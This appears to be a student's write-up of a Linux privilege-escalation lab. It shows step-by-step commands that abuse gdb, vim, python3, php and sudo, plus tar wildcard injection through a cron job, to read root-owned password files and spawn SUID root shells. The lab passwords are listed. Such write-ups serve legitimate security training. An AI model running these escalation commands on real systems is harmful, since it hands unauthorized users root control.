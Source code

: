 # Privelege Escalation Laboratory 3
### This laboratory work is based on privelege escalation tecnhiques by exploiting different types of binaries and using different tecnhiques.


## user1
**Pass:	WelcomeToCodwer**

We start with user1 and have to make our way up to user6 and then take root.

![image](https://github.com/cbr1N/codwer/assets/95069685/a102755e-85e4-4e1c-851e-43a40f126d39)

Here we should exploit the binary `/usr/bin/gdb` so that we can read the password for user2 from `/root/user2.txt`.
GTFOBins offers a file read exploit using `gdb`.

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.
This requires that GDB is compiled with Python support.

```
gdb -nx -ex 'python print(open("/root/user2.txt").read())' -ex quit
```

This is the command we use to read the contents of `/root/user2.txt`.

![image](https://github.com/cbr1N/codwer/assets/95069685/1725015a-ec04-410d-b746-8e3da61081f7)


## user2
**Pass: WolfMountedFastnessNappy**

![image](https://github.com/cbr1N/codwer/assets/95069685/c44a3255-67df-4603-8f8b-771d72e225f8)

To get the password for user3 we hve to exploit the binary `vim.basic` that is stored in `/usr/bin`. 

The exploit is pretty simple and it also is on the GTFOBins website. Just search for `vim`.
Here we use the file read exploit. 

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
vim /root/user3.txt
```

![image](https://github.com/cbr1N/codwer/assets/95069685/086ec872-30e0-4433-ae28-4db021307435)


## user3
**Pass: PebblyClaritySuperiorMournful**

![image](https://github.com/cbr1N/codwer/assets/95069685/d21b3cc1-edbd-4514-a827-41370e9bfb39)

To get to the 4th user we have to exploit the `python3.11` binary so that we can gain read access to `/root/user4.txt`.

This one was a little tricky. I found the solution on juggernaut-sec. In this example we will set the SUID bit on a binary.

The easiest way to do this would be to assign the SUID bit to bash or any other shell binary; however, if we wanted to get creative, we could add the SUID bit to any binary found on GTFObins in the SUID section, and then just follow the steps to get root. After setting the SUID bit we use the `/bin/bash -p` command to drop in a root shell.
```
ls -l /bin/bash
python3 -c 'import os;os.chmod("/bin/bash", 0o4755)'
/bin/bash -p
cat /root/user4.txt
```

![image](https://github.com/cbr1N/codwer/assets/95069685/6fda0215-d35d-48d7-867a-010dbfa90350)


## user4
**Pass: JustifierDetachedCuppedEndurable**

![image](https://github.com/cbr1N/codwer/assets/95069685/d79eb96e-d6e5-47e7-a009-be79de42bb57)

Here the task is to exploit the `php8.2` binary. One common php exploit is to execute a command that we want as root with teh help of `posix_setuid(0)` 0 meaning the user id of root of course.

```
php -r "posix_setuid(0); system('cat /root/user5.txt');"
```

After setting our user id to 0 for executing this specific command, that being `cat /root/user5.txt` we easily get the password for user5.

![image](https://github.com/cbr1N/codwer/assets/95069685/286d13cb-4bea-4f03-a609-ad792301da2e)


## user5
**Pass: VentureRangedConveneVirus**

![image](https://github.com/cbr1N/codwer/assets/95069685/2dd05354-767c-48dc-8a26-96349dc0ceea)

To get past this task we have to exploit a cronjob. To be more exact we have to use command injection through a cron job. We also have the `pspy` script so that we can see the processes without root permissions.

![image](https://github.com/cbr1N/codwer/assets/95069685/cedbc69c-a995-4f00-975c-3680febd09f0)

Here are all the commands that are being executed every 50 seconds:

`/usr/bin/rm /home/user5/backup.tar.gz`  This command removes the file `backup.tar.gz` in the /home/user5 directory.

`/usr/sbin/CRON -f`  These are instances of the CRON daemon, which is responsible for executing scheduled tasks. The `-f` flag indicates running in the foreground.

`/bin/sh -c cd /home/user5 && /usr/bin/tar -czuf backup.tar.gz *`  This shell command changes the directory to `/home/user5` and creates a tarball named `backup.tar.gz` containing all files (`*`).

`/bin/sh -c cd / && run-parts --report /etc/cron.hourly`  This shell command changes the directory to the root directory (`/`) and runs all scripts in `/etc/cron.hourly`, reporting their execution.

`/bin/sh -c sleep 50 && /usr/bin/rm /home/user5/backup.tar.gz`  This command sleeps for 50 seconds and then removes the `backup.tar.gz` file from the `/home/user5` directory.

`/usr/bin/tar -czuf backup.tar.gz README.md pspy`  This tar command creates a compressed tarball named `backup.tar.gz` containing the files `README.md` and `pspy`.

`gzip`  This command is used to compress files using the gzip algorithm.

To exploit this cronjob we have to follow these exact steps:
```
echo "cp /bin/bash /tmp/myshell; chmod +s /tmp/myshell" > /home/user5/pwn.sh
chmod +x /home/user/pwn.sh
touch /home/user5/--checkpoint=1
touch /home/user5/--checkpoint-action=exec=sh\ pwn.sh
/tmp/myshell -p
cat /root/user6.txt
```

We created a script called `pwn.sh` in the `/home/user5` directory. This script is designed to copy the `/bin/bash` executable to `/tmp/myshell` and then change its permissions so that it can be run with elevated privileges.

We changed the permissions of the `pwn.sh` script to make it executable. This allows us to run the script later.

We created an empty file named `--checkpoint=1` in the `/home/user5` directory. This file is part of our strategy to exploit a specific parsing behavior in some programs.

We created another file named `--checkpoint-action=exec=sh pwn.sh` in the `/home/user5` directory. This file is intended to trigger the execution of our `pwn.sh` script when a checkpoint is reached by certain programs.

Finally, we executed the `/tmp/myshell` shell with the `-p` option. This preserves the effective user ID, allowing us to run the shell with root privileges. Since we had previously set the setuid bit on this shell, it runs with the permissions of the root user, effectively giving us a root shell.

![image](https://github.com/cbr1N/codwer/assets/95069685/3245d0c4-a95e-481e-adf2-e56901a75a30)


## user6
**Pass: RearViewUnscathedSantaRamble**

![image](https://github.com/cbr1N/codwer/assets/95069685/37e20fb3-d0fa-454e-9ae9-24fb9529fd15)

Here we have to use command injection exploiting the sudo rights given to user6.
As we can see user6 can run any Python 3 script located in the `/root/` directory as the root user without needing to provide a password. 

This exercise was a tricky one. We don't actually need command injection. What we really need to use is path traversal. But before that we should make some preparations.

Firstly we create a `.py` file. For example `lol.py`. We write a python sript that renames the file `password.txt` to `password.py` so that we will be able to open it using the `sudo python3` method.
But to actually run this script from our `/home/user6` path we can trick the system using the path traversal technique.

If the file path uses wildcards, we may execute arbitrary files.
In short, we can refer to files in different directories which the system owner unintended.

```
sudo -l
echo 'import os; os.rename("/root/password.txt", "/root/password.py")' > lol.py
sudo python3 /root/../../../home/user6/lol.py
sudo python3 /root/password.txt
```

![image](https://github.com/cbr1N/codwer/assets/95069685/3420331b-7898-4353-a8cb-b917fec8e7b4)


## root
**Pass: CapsAndMissesEverywhere**


## Lessons learned
I have learned a lot of things working on these tasks.

Understanding system components like `gdb`, `vim`, `python3`, `php8.2` and cron jobs. Knowing how these components operate and interact with the system is crucial for identifying potential avenues for exploitation.

Of course the most important part were the exploit techniques like file read exploits, setting SUID bits, command injection and path traversal.


## Useful links
- [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-path-traversal-privilege-escalation/]

- [https://juggernaut-sec.com/capabilities/#Exploiting_Various_Capabilities]

- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities]

- [https://book.hacktricks.xyz/pentesting-web/command-injection]
